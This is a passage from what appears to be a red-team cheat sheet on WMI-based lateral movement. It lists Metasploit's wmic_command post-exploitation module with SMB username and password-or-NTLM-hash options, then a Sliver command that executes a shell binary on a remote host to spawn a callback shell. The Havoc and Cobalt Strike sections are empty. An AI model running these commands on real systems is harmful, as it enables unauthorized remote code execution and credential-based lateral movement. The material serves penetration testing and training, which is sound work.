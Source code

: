 #### 4.1.3 - Post

```
msf > use post/windows/gather/wmic_command

msf post(windows/gather/wmic_command) > options

Module options (post/windows/gather/wmic_command):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   COMMAND                     no        WMIC command options.
   RESOURCE                    no        Full path to resource file to read commands from.
   RHOST      localhost        yes       Target address range
   SESSION                     yes       The session to run this module on
   SMBDomain                   no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as
   TIMEOUT    10               yes       Timeout for WMI command in seconds

msf post(windows/gather/wmic_command) > set session <session_id>

msf post(windows/gather/wmic_command) > set rhost <target_IP>

msf post(windows/gather/wmic_command) > set smbuser <username>

msf post(windows/gather/wmic_command) > set smbpass <password | ntlm_hash>

msf post(windows/gather/wmic_command) > set command <WQL Queries>

msf post(windows/gather/wmic_command) > run
```

- Here's an example

```
msf post(windows/gather/wmic_command) > set command bios get serialnumber

msf post(windows/gather/wmic_command) > run
```

## 05 - Sliver

### 5.1 - Spawn Callback Shell

`sliver (IMPLANT_NAME) > sharp-wmi action=exec computername=<IP> command=\"""C:\\Windows\\Temp\\shell.exe""\"`

## 06 - Havoc

TODO: Demonstrate commands using wmiexec with Havoc

## 07 - Cobalt Strike
